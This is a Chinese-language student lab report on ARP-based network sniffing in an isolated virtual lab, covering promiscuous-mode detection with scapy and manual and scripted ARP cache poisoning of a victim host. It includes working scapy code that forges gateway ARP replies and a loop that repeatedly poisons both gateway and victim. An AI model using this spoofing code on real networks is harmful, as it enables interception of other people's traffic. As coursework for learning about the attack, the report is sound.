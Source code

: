 # 网络监听

## 实验要求

- [x] 实验一：检测局域网中的异常终端
- [x] 实验二：手工单步“毒化”目标主机的 ARP 缓存
- [ ] 实验三（可选）：使用自动化工具完成 ARP 投毒劫持实验
- [x] 实验四（可选）：基于 scapy 编写 ARP 投毒劫持工具探索型实验；

## 实验环境

#### 网络拓扑

![topology](img/topology.jpg)

#### 网络配置

* 网关：
  * 172.16.222.1
  * 08:00:27:36:d3:2a  /  enp0s10
  * ![gateway.png](img/gateway.png)
* 攻击者：
  * 172.16.222.111
  * 08:00:27:0e:34:8d  /  eth0
  * ![attacker](img/attacker.png)
* 受害者：
  * 172.16.222.101
  * 08:00:27:1d:d1:d3  /  enp0s3
  * ![victim](img/victim.png)

#### 实验前准备

在攻击者主机上安装scapy（Linux）

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

## 实验过程

### 实验一：检测局域网中的异常终端

检查受害者主机是否开启混杂模式，需要注意的是，结果中并没有PROMISC字符串

```bash
ip link show enp0s3
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
     link/ether 08:00:27:1d:d1:d3 brd ff:ff:ff:ff:ff:ff
```

在攻击者主机上进入scapy，并在 scapy 的交互式终端输入以下代码回车执行

```python
pkt = promiscping("172.16.222.101")
```

> promiscping的作用是：Send ARP who-has requests to determine which hosts are in promiscuous mode，即发送ARP请求以确定哪些主机处于混杂模式

​	此时的输出结果为下所示

```python
>>> pkt = promiscping("172.16.222.101")
---------------------------------------------------------------------------
PermissionError                           Traceback (most recent call last)
<ipython-input-1-13d733bc8cc2> in <module>
----> 1 pkt = promiscping("172.16.222.101")

/usr/lib/python3/dist-packages/scapy/layers/l2.py in promiscping(net, timeout, fake_bcast, **kargs)                                                       
    670     """Send ARP who-has requests to determine which hosts are in promiscuous mode
    671     promiscping(net, iface=conf.iface)"""
--> 672     ans, unans = srp(Ether(dst=fake_bcast) / ARP(pdst=net),
    673                      filter="arp and arp[7] = 2", timeout=timeout, iface_hint=net, **kargs)  # noqa: E501
    674     ans = ARPingResult(ans.res, name="PROMISCPing")

/usr/lib/python3/dist-packages/scapy/sendrecv.py in srp(x, promisc, iface, iface_hint, filter, nofilter, type, *args, **kargs)                            
    550     if iface is None and iface_hint is not None:
    551         iface = conf.route.route(iface_hint)[0]
--> 552     s = conf.L2socket(promisc=promisc, iface=iface,
    553                       filter=filter, nofilter=nofilter, type=type)   
    554     result = sndrcv(s, x, *args, **kargs)

/usr/lib/python3/dist-packages/scapy/arch/linux.py in __init__(self, iface, type, promisc, filter, nofilter, monitor)                                     
    396                 "The 'monitor' argument has no effect on native linux sockets."                                                                   
    397             )
--> 398         self.ins = socket.socket(socket.AF_PACKET, socket.SOCK_RAW, socket.htons(type))  # noqa: E501
    399         if not nofilter:
    400             if conf.except_filter:

/usr/lib/python3.9/socket.py in __init__(self, family, type, proto, fileno)
    230             if proto == -1:
    231                 proto = 0
--> 232         _socket.socket.__init__(self, family, type, proto, fileno)
    233         self._io_refs = 0
    234         self._closed = False

PermissionError: [Errno 1] Operation not permitted
```

显然这是错误的，查询师姐资料得知此操作需要root权限，退出scapy并`sudo scapy`进入，重新键入代码得到结果：

```python
>>> pkt = promiscping("172.16.222.101")
Begin emission:
Finished sending 1 packets.

Received 0 packets, got 0 answers, remaining 1 packets
```

此时，回到受害者主机上，输入以下代码启动网卡混杂模式，并再次重复第一步确认是否开启成功：

```bash
sudo ip link set enp0s3 promisc on
```

![promisc](img/promisc.png)

如图，成功开启受害者主机网卡的混杂模式。让我们回到攻击者主机上的 scapy 交互式终端继续执行命令，观察两次命令的输出结果差异。

```python
>>> pkt = promiscping("172.16.222.101")
Begin emission:
Finished sending 1 packets.
*
Received 1 packets, got 1 answers, remaining 0 packets
  08:00:27:1d:d1:d3 PcsCompu 172.16.222.101
```

很显然，在受害者主机上打开网卡混杂模式后，攻击者的promiscping操作得到了正常的回应，返回结果是受害者主机的MAC地址和IP地址。

在受害者主机上用`sudo ip link set enp0s3 promisc off`命令来手动关闭该网卡的「混杂模式」。



### 实验二 手工单步“毒化”目标主机的 ARP 缓存

以下代码在攻击者主机上的 `scapy` 交互式终端完成。

```
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.222.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```

![arp_make](img/arp_make.png)

```python
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)
# 结果
# >>> recved = srp(arpbroadcast, timeout=2)
# Begin emission:
# Finished sending 1 packets.
# *
# Received 1 packets, got 1 answers, remaining 0 packets

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc

# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.222.101
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="172.16.222.1", pdst="172.16.222.101", hwdst="08:00:27:0e:34:8d")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

如下图：

![arp_receive](img/arp_receive.png)

此时在受害者主机上查看 ARP 缓存，发现靶机并没有任何变化，按道理来说应该成功毒化了才对。在靶机上用`tcpdump`进行抓包实验，发现根本什么都收不到

![failed](img/failed.png)

查询师姐经验，尝试将sendp改为send，成功收到ARP包

![succeed](img/succeed.png)

同样在师姐的实验报告中可以得知，虽然受害者主机立刻就有了反应，但检查ARP目录仍发现投毒失败。立即再次在攻击者主机上发送投毒包，来受害者主机上查看，一段时间内受害者主机被成功毒化，但是一段时间后MAC地址又会变为正常，推测可能是Debian系统每隔一段时间就会在后台向网关确定MAC地址是否有变化的缘故



### 实验四 基于scapy编写 ARP 投毒劫持工具探索型实验

以下代码在攻击者主机中的scapy交互环境中使用

```python
# 投毒
def trick(gm,vm): # gm为网关IP地址，vm为受害者主机IP地址
    send(ARP(op="who-has", pdst=vm, psrc=gm))
    send(ARP(op="who-has", pdst=gm, psrc=vm))

# 主体函数
def do_now():
    for x in range(0,100):
        trick("172.16.222.1","172.16.222.101")
        time.sleep(0.1) # 每0.1秒发一次
        
do_now()
```

![attacker_scapy](img/attacker_scapy.png)

​	如上图，执行自动化脚本后成功投毒。



### 参考链接

- [ARP Cache Poisoning using Scapy](https://medium.datadriveninvestor.com/arp-cache-poisoning-using-scapy-d6711ecbe112) 
- [Linux操作系统中删除ARP缓存的命令](https://cloud.tencent.com/developer/article/1009956?from=14588)
- [Lychee](https://github.com/CUCCS/2021-ns-public-Lychee00/tree/chap0x04)
